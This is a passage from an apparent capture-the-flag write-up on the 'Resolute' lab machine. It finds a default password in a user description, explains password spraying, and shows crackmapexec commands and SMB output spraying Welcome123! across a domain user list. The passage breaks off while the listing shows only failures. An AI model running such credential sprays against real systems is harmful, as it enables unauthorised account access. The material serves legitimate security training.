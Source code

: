 This provides not only a list of users, but there’s also an interesting comment for RID 0x457 (marco), `Desc: Account created. Password set to Welcome123!`.

## Shell as melanie

### Test Credentials

#### As marco

I’ll use `crackmapexec` as an easy way to check credentials against SMB.

First I try as marco, but it doesn’t work:

```

root@kali# crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marco:Welcome123! STATUS_LOGON_FAILURE 

```

I tried connecting with [EvilWinRM](https://github.com/Hackplayers/evil-winrm) as well, but no luck.

#### Password Spray

Password spraying is similar to a password brute force, except you only try one (or a few common passwords) across a lot of users. The benefit to the attacker is that you don’t risk locking out any single account, and in a case where you only need a foothold, it’s very common in a large organization to find at least one user using a really bad guessable password.

I grabbed the list of users from `rpcclient`, and dropped them into a file. Then I ran `crackmapexec` using that list as the user input. It found a user still using `Welcome123!`:

```

root@kali# crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\angela:Welcome123! STATUS_LOGON_FAILURE 
```